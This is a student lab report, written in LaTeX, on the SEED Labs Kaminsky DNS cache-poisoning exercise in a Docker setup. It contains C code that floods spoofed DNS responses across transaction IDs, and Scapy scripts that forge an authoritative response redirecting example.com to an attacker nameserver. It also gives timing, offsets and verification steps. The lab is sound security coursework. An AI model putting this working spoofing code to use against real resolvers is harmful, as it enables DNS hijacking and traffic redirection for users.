\documentclass[12pt,reqno]{amsart}

\usepackage{amsthm,amsmath,amssymb}
\usepackage{mathtools}
\usepackage{proof}
\usepackage{centernot}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage[T1]{fontenc}
\usepackage{courier}
\usepackage{enumitem}
\usepackage{hyperref}
\usepackage{array}
\usepackage{multirow}
\usepackage{algorithmic}
\usepackage{textcomp}
\usepackage{algorithm}
\usepackage{cite}
\usepackage{listings}
\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}

\lstdefinestyle{CStyle}{
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\ttfamily\tiny,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}
\lstdefinestyle{PythonStyle}{
    commentstyle=\color{mGreen},
    keywordstyle=\color{blue},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{orange},
    basicstyle=\ttfamily\tiny,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=Python
}


\definecolor{mySucces}{RGB}{40, 167, 69}
\definecolor{myFail}{RGB}{220, 53, 69}

\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\st}[0]{\text{ s.t. }}
\newcommand{\where}[0]{\text{ where }}
\newcommand{\mand}[0]{\text{ and }}
\newcommand{\msgspc}[0]{\mathcal{M}}
\newcommand{\cphspc}[0]{\mathcal{C}}
\newcommand{\keyspc}[0]{\mathcal{K}}
\newcommand{\advrs}[0]{\mathcal{A}}
\newcommand{\distin}[0]{\mathcal{D}}
\newcommand{\oracle}[0]{\mathcal{O}}
\newcommand{\correctans}[0]{\colorbox{mySucces}{CORRECT}}
\newcommand{\falseans}[0]{\colorbox{myFail}{FALSE}}
\newcommand\MyBox[2]{
  \fbox{\lower0.75cm
    \vbox to 1.7cm{\vfil
      \hbox to 1.7cm{\hfil\parbox{1.4cm}{#1\\#2}\hfil}
      \vfil}%
  }%
}
\graphicspath{ {./} }
\newtheorem{theorem}{Theorem}[section]
\newtheorem{axiom}[theorem]{Axiom}
\newtheorem{case}[theorem]{Case}
\newtheorem{claim}[theorem]{Claim}
\newtheorem{conclusion}[theorem]{Conclusion}
\newtheorem{condition}[theorem]{Condition}
\newtheorem{conjecture}[theorem]{Conjecture}
\newtheorem{corollary}[theorem]{Corollary}
\newtheorem{criterion}[theorem]{Criterion}
\newtheorem{definition}[theorem]{Definition}
\newtheorem{example}[theorem]{Example}
\newtheorem{exercise}[theorem]{Exercise}
\newtheorem{lemma}[theorem]{Lemma}
\newtheorem{notation}[theorem]{Notation}
\newtheorem{problem}[theorem]{Problem}
\newtheorem{proposition}[theorem]{Proposition}
\newtheorem{remark}[theorem]{Remark}
\newtheorem{solution}[theorem]{Solution}
\newtheorem{summary}[theorem]{Summary}    

\begin{document}

\begin{center}
  \large\textbf{Kaminsky Attack} \\
\end{center}

\begin{center}
  \line(1,0){250}
\end{center}

This report includes several screenshots and codes regarding the Kaminsky Attack project. It uses SeedLab's Ubuntu 20.04 VM. Furthermore, a lab setup\footnote{https://seedsecuritylabs.org/Labs\_20.04/Files/DNS\_Remote/Labsetup.zip} is needed.
is required during setup. We will have several sections:
\begin{enumerate}
  \item Verification of the Setup
  \item Preparing the Attack
  \item Conducting the Attack
  \item Verifiying the Attack
\end{enumerate}

Attached with this submission we have 3 files:
\begin{enumerate}
  \item \code{attack.c} (gcc 9.3.0)
  \item \code{request\_gen.py} (Scapy, Python 3.8.5)
  \item \code{response\_gen.py} (Scapy, Python 3.8.5)
\end{enumerate}

\subsection*{Verification of the Setup}
The Dockers are given already, we just need to \code{dcbuild} and \code{dcup} and they run successfully, shown in figure \ref{fig:dockers}.  

\begin{figure}[h]
  
\includegraphics[width=0.4\linewidth]{img/docker_ps.png}
  \caption{Dockers running. The container ID may change on later figures, as they change everytime we start the system.}
  \label{fig:dockers}
\end{figure}

\begin{figure}[h]
  
\includegraphics[width=0.7\linewidth]{img/user_dig_nsattacker.png}
  \caption{DNS query from user docker with \code{dig ns.attacker32.com}.}
  \label{fig:atker}
\end{figure}

In figure \ref{fig:atker} we can see an example DNS request involving both DNS servers in Dockers. We have also verified the setup by checking the configuration files, but we are not showing them here.

\begin{figure}[h]
  
\includegraphics[width=0.7\linewidth]{img/HONEST.png}
  \caption{DNS query from user docker with \code{dig example.com}. This is the expected response. Even if this response is made and the answer is cached, we can conduct our attack.}
  \label{fig:honest}
\end{figure}

\subsection*{Preparing the Attack}
Our attack window is the time starting from the request package from the local DNS to the name server, until a response with valid transaction ID from that name server comes back to the local DNS server. With several \code{dig} commands on random names, I have found that on average it takes around 650ms for the \code{dig} to complete. This gives us an upperbound of 650ms to conduct our attack, but of course in reality it may change for everyone.

We would like to make use of this attack window as much as possible, notwithstanding Kaminsky attack allows us create more windows with different domain names. We would also like to avoid making unnecessary spoof responses before the request is made in the first place. To illustrate what we mean with this: suppose $A \to B$ is the DNS request from $A$ to $B$, which $B$ has to forward as $B \to C$. Now, before $B \to C$ happens, I should not waste my resources to make $C \to B$ spoof responses. An example of this is given in figure \ref{fig:dnspackets}.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/attack_information_dnspackets.png}
  \caption{1 request and 1 spoof response packet sniffing. Notice how the spoof is sent even before the request is made.}
  \label{fig:dnspackets}
\end{figure}


\begin{figure}[h]
  \begin{lstlisting}[style=CStyle, firstnumber=66]
while (1) { 
    // Generate a random name 
    for (k=0; k<5; k++)
      name[k] = a[rand() % 26]; 

    // Prepare transaction ids to not waste time with them later 
    for (k=0; k<RESPONSE_COUNT; k++)  
      trn_id_net_orders[k] = htons(k); 
      //trn_id_net_orders[k] = htons((rand() % 7) * 10000 + (rand() % 5536)); 
      
    // Prepare request name
    memcpy(ip_req+REQ_QNAME_OFFSET, name, 5); // update qname
    // Prepare response names
    memcpy(ip_res+RES_QNAME_OFFSET, name, 5); // update qname
    memcpy(ip_res+RES_ANAME_OFFSET, name, 5); // update aname
 
    t1 = clock(); // attack start
    send_raw_packet(ip_req, n_req); // Send request
    sleep(0.05); // wait for a bit
    
    // Send responses
    for (k=0; k<RESPONSE_COUNT; k++) { 
      memcpy(ip_res+RES_TRNID_OFFSET, &trn_id_net_orders[k], 2); //update trn id
      send_raw_packet(ip_res, n_res);   
    }
    t2 = clock() - t1;  // attack end
    
    printf("%.*s.example.com\t%d responses in %f ms\n", 5, name, 
      RESPONSE_COUNT, (float)(t2 * 1000 / CLOCKS_PER_SEC));

    #if CONTROLLED
    printf("Try again? Press <ENTER>\t");
    getc(stdin);
    #endif

    
  }
\end{lstlisting}
  \caption{Inside the while loop of \code{attack.c}.}
  \label{lst:atk}
\end{figure}

In listing \ref{lst:atk} we see the attack code. Notice how we do all preparations such as memory copies before sending the request, to not waste anytime during attack window. For the same reason, we also minimize our function calls and just use \code{send\_raw\_packet} function in the code. We further measure how long our attack takes, with respect to the 650ms window mentioned above\footnote{Of course, this 650ms can be different for everyone, and it requires empricial observations beforehand.}. The stalling with sleep is also made to avoid sending wasted spoof responses to a non-existing request, exemplified in figure \ref{fig:dnspackets}. The value 0.05 is empirically set. It still allows a bit of spoofs to be sent before the request, to allow a margin of error. In my attack, I used 8000 responses, which takes less 200ms to launch at least. Therefore, I can be sure most of these (if not all) arrive before the actual response.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/offsets.png}
  \caption{Finding offsets using \code{bless}.}
  \label{fig:offsets}
\end{figure}

To decide the offsets we use \code{bless} and look into the binary of the generated request and response packets. In figure \ref{fig:offsets} we see how we find out the offsets of the response packet. The \code{AA AA} is transaction ID of the request, which is at a fixed place of offset 28. We care more about the whereabouts of domain name, and we can look at the hex value at the bottom in the \code{bless} window after setting the cursor to the wanted position in the binary to obtain its offset. We used macro in within the code, so offsets can be found at the top of the \code{attack.c} file in the submission.

We compile our code with \code{gcc -O3 -Wall -Wno-pointer-sign -o atk attack.c}. The executable is given to the attacker docker via the shared \code{volume} folder. 

\begin{figure}[h]
  \begin{lstlisting}[style=PythonStyle, firstnumber=1] 
from scapy.all import * 

# Construct the DNS header and payload
qname = 'twysw.example.com'
Qdsec = DNSQR(qname=qname)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)

# Construct the IP, UDP headers, and the entire packet 
ip = IP(dst='10.9.0.53', src='1.1.2.2')
udp = UDP(dport=53, sport=33333, chksum=0) 
request = ip/udp/dns

# Save the packet to a file in binary
with open('ip_req.bin', 'wb') as f:
  f.write(bytes(request))
\end{lstlisting}
  \caption{DNS request packet generator \code{request\_gen.py}.}
  \label{lst:dnsreq}
\end{figure}

In listing \ref{lst:dnsreq} we see the Scapy code for generating DNS request packets. \code{qname} is just a fixed length random name prepended to the target domain name. The fact that is fixed is important, it will enable us to change that portion of the binary using \code{memcpy} from within the C code. The destination IP is the local DNS server, which listens to port 53 as per the DNS standard. The source IP is not important, because we just want to initiate a DNS request at the server to the world, to create our attack window. In fact, it is better if we do not use the actual attacker source IP, otherwise that would be giving our location. The source port is 33333, as is the configured UDP port for the machine.


\begin{figure}[h]
  \begin{lstlisting}[style=PythonStyle, firstnumber=1]
from scapy.all import *  

# Construct the DNS header and payload
name = 'twysw.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200) # 1.2.3.4 is attacker desired IP
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, 
  qdcount=1, ancount=1, nscount=1, arcount=0,
  qd=Qdsec, an=Anssec, ns=NSsec)

# Construct the IP, UDP headers, and the entire packet 
# source can be either:
# - 199.43.135.53 (a.iana-servers.net)
# - 199.43.133.53 (b.iana-servers.net) 
udp = UDP(dport=33333, sport=53, chksum=0) 
ip = IP(dst='10.9.0.53', src='199.43.133.53') 
response = ip/udp/dns

# Save the packet to a file in binary
with open('ip_res.bin', 'wb') as f:
  f.write(bytes(response))
\end{lstlisting}
  \caption{DNS response packet generator \code{response\_gen.py}.}
  \label{lst:dnsres}
\end{figure}

In listing \ref{lst:dnsres} we see the Scapy code for generating DNS response packets. We include a NS record in this response, with authority, stating that \code{ns.attacker32.com} is the authoritative nameserver for the domain \code{example.com} (line 9). We also provide the answer to the request in an A record, saying that \code{1.2.3.4} is the address of the random name (line 8), \code{twysw.example.com} in the example. The destination is of course the victim local DNS server, and the source is the IP of \code{example.com} name server, which we can obtain by sniffing the honest response, or just look at \url{https://intodns.com/example.com}. Note that this name server can be either 199.43.133.53 or 199.43.135.53, respectively \url{a.iana-servers.net} or \url{b.iana-servers.net}. Since the request will made from port 33333 to port 53 by the local DNS to the world, we respond from port 53 to 33333.


\subsection*{Conducting the Attack}
Basically we would like to spoof a response from the DNS server of the example.com, which actually comes from the attacker and actually makes it seem that the attacker's own DNS server is the authority, so further domain requests will be forwarded there. For each request under the \code{example.com} domain, our attack window is until the actual response arrives, and we will have to get lucky and send a response packet with the matching transaction ID, with the sender spoofed as the DNS name server for the targeted domain.

We run the attack code, part of which we have described above in listing \ref{lst:atk}, from the attacker machine. It effectively initiates a request and floods a number of spoofed response messages with the hopes of hitting a correct transaction ID. To make it easier to test, I did not give random transaction IDs but instead covered a defined range of IDs. For example, IDs 0x0000 to 0x1f1f are spoofed, and by hand we can calculate the MS it takes for this to happen, and most of the time all of these spoofed responses arrive before the actual response. This way, we can just check the transaction ID of the request, and if it is less than 0x1f1f we can 90\% of the time be sure that the attack worked. It is of course possible to use random transaction IDs in a real attack.

In the code, to not overflood the local DNS server, I have added a user input such that it can try a new random name if it wants, i.e. once the attack for one name is finished, the program expects a user input. This way it becomes easier to analyze the packets.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/attack_1.png}
  \caption{A successfull attack. Notice how the transaction IDs are same.}
  \label{fig:atk1}
\end{figure}

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/attack_2.png}
  \caption{Local DNS server forwards the response to the requester source IP 1.1.2.2. Notice how it says the IP of vdwsi.example.com is 1.2.3.4.}
  \label{fig:atk2}
\end{figure}

In figures \ref{fig:atk1} and \ref{fig:atk2} we see the attack taking place. For this response alone, vdwsi.example.com is answered to be 1.2.3.4. However, what is important is that this answer comes with an authority nameserver: ns.attacker32.com. So, further requests will be forwarded here, effectively poisoning the cache.

\subsection*{Verifying the Attack}

\begin{figure}[h]
  
\includegraphics[width=0.7\linewidth]{img/ATTACK_SUCCESS.png}
  \caption{\code{dig example.com} after the attack.}
  \label{fig:vrfy1}
\end{figure}


\begin{figure}[h]
  
\includegraphics[width=0.7\linewidth]{img/ATTACK_VERIFY.png}
  \caption{ \code{dig @ns.attacker32.com example.com} }
  \label{fig:vrfy2}
\end{figure}


To verify, we will do \code{dig example.com} and \code{dig @ns.attacker32.com example.com} and compare the results (figures \ref{fig:vrfy1} and \ref{fig:vrfy2}). Notice how the resulting IP is 1.2.3.4 for both of them.

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{img/LOCAL_POISONED.png}
  \caption{Poisoned cache of the local DNS server.}
  \label{fig:pois}
\end{figure}

To further verify the attack, we can check the cache dump of the local DNS server, shown in figure \ref{fig:pois}.




\end{document}